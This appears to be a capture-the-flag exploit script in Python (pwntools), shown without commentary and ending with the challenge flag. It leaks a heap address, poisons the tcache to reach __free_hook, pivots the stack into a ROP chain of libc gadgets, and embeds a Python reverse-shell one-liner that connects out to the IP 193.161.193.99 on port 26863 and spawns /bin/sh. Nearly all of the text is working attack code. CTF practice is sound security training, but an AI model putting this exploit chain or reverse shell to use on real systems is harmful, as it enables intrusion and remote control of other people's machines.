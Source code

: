 ```py=
leak = int_from_bytes(leak)
print('leak: ', hex(leak))
heap_base = leak - 0xcc0
print('heap base: ', hex(heap_base))
req2(0x100 + 4 - 0x20, 1, b'A'*0xe0)
#overwrite tcache
payload = b'A'*0x10 + p64(0x25) + p64(libc.symbols['__free_hook'] - 0xbc) + p64(0x1111111111111111)*2 + p64(0x25)
payload += p64(heap_base + 0x1158) + p64(0xdeadbeef)*4 + p64(libc.address - 0xbd7bf40 - 0x80)
payload += p64(0xdeadebeef)
payload = payload.ljust(8*0x10)
b64 = base64.b64encode(payload)
print('payload: ', b64)
print('len: ', hex(len(b64)))
req2(len(b64) + 4, 0, b64)

MOV_RDI_PRBX = 0x000000000009e7f1 + libc.address#: mov rdi, qword ptr [rbx + 0x48] ; mov rsi, r14 ; call rax
MOV = 0x000000000010ce85 + libc.address#: mov rdi, qword ptr [rbx + 0x80] ; call qword ptr [rax + 0x88]
CALL_RAX = 0x0000000000146e72 + libc.address#: mov rax, qword ptr [rbx + 0x20] ; mov rdi, rbp ; call qword ptr [rax + 0x20]
MOV_RDX = 0x000000000010d18b + libc.address #: mov rdx, qword ptr [rax + 0xb0] ; call qword ptr [rax + 0x88]
MOV_RSP_RDX = 0x000000000005b4d0 + libc.address#: mov rsp, rdx ; ret
POP_RDI = 0x0000000000023b6a + libc.address#: pop rdi ; ret
SYSCALL = 0x000000000002284d + libc.address#: syscall
POP_RDX_R12 = 0x0000000000119431 + libc.address#: pop rdx ; pop r12 ; ret
POP_RSI = 0x000000000002601f + libc.address#: pop rsi ; ret


MOV_RSP_RDX = 0x000000000005b4d0 + libc.address#: mov rsp, rdx ; ret
shell = b"C"*0x80 +  b"/bin/python3\x00-c\x00socket=__import__(\"socket\");os=__import__(\"os\");pty=__import__(\"pty\");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"193.161.193.99\",26863));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")\x00" + b'\x00'*4
PYTHON3 = heap_base + 0x1070
C = PYTHON3 + 0xd
SOCKET = C + 3
ARG = heap_base + 0x1300
reverse_shell = ROP(libc)
reverse_shell.dup2(0x10, 0)
reverse_shell.dup2(0x10, 1)
reverse_shell.system(next(libc.search(b'/bin/sh\x00')))
                                                    # pivot here v
shell += p64(MOV_RDX)*0xb + p64(MOV_RSP_RDX)*0x7 + p64(heap_base + 0x12c0) + p64(MOV_RSP_RDX)*4 + p64(POP_RDI + 1)*0x12 + reverse_shell.chain() + flat(PYTHON3, C, SOCKET, 0) + p64(POP_RDI) + p64(0x20) + p64(libc.symbols['sleep']) + p64(0xcafebabe)*(0x10 - 7)
#shell += p64(MOV_RDX)*0xb + p64(MOV_RSP_RDX)*0x7 + p64(libc.address - 0xbd7c0e0 + 0x380) + p64(MOV_RSP_RDX)*4 + p64(POP_RDI + 1)*0x22 + p64(libc.symbols['system'])

#shell = b'B'*0x200
req2(len(shell) + 10, 1, shell)
print(hex(CALL_RAX))
pause()
payload = p64(CALL_RAX)*2
payload = payload[:-5]
b64 = base64.b64encode(payload)
print('len: ', hex(len(b64)))
req2(len(b64) + 4, 0, b64)

#KCSC{n0_way!_integer_ov3rfl0w_h3r3???}
p.interactive()
```